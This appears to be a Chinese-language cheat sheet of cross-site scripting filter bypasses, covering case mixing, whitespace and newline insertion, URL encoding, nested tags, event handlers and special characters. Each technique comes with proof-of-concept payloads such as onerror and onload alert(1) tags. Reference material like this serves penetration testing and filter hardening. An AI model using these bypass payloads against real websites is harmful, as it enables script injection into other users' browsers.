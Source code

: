### XSS 绕过方式

**1. 大小写混淆绕过**

许多过滤规则是针对特定大小写模式的，比如 `<script>`。你可以尝试使用大小写混淆的方式来绕过，例如：

- `<sCrIpT>`
- `<ScrIpT>`
- `<SCript>`

这种方式通常在不区分大小写的环境中有效

**2. 空白字符、换行符和 Tab 键绕过**

过滤器有时会忽略或者处理不当某些空白字符。你可以尝试在标签、属性名或者属性值之间插入空格、换行符（`%0a`或`%0d`）或者 Tab 键（`%09`）来绕过，例如：

- `<img src="javascript:alert(1);">` 可以尝试写成 `<img src=" javascript: alert(1); ">`
- `<script>alert(1)</script>` 可以尝试写成 `<script%0a>alert(1)</script>`

**3. 使用编码绕过**

许多过滤器会试图拦截特定字符，比如尖括号 `< >` 和引号 `"` `'`。你可以使用 HTML 实体编码、URL 编码或者其他编码方式来绕过

- **URL 编码：**
  - `(` 编码为 `%28`
  - `)` 编码为 `%29`
  - ` ` 编码为 `%20`

**4. 标签和属性嵌套绕过**

有些过滤器可能只过滤顶层的脚本标签，但忽略嵌套的标签。你可以尝试在标签内部使用其他标签或者属性来注入，例如：

- `<a href="javascript:alert(1)">Click Me</a>`
- `<img src="x" onerror="alert(1)">`
- `<svg onload=alert(1)>`

**5. 事件处理器绕过**

除了最常见的 `onload` 和 `onerror` 事件，还有很多其他事件可以用来触发脚本，例如：

- `onmouseover`
- `onmouseout`
- `onclick`
- `onfocus`
- `onblur`
- `onchange`

例如：`<input onfocus=alert(1) autofocus>`

**6. 使用特殊字符绕过**

一些特殊字符，如反引号（`）、反斜杠（``）等，在特定情况下可以用来绕过过滤。例如，在某些 JavaScript 语法中，反引号可以用来包裹字符串并执行代码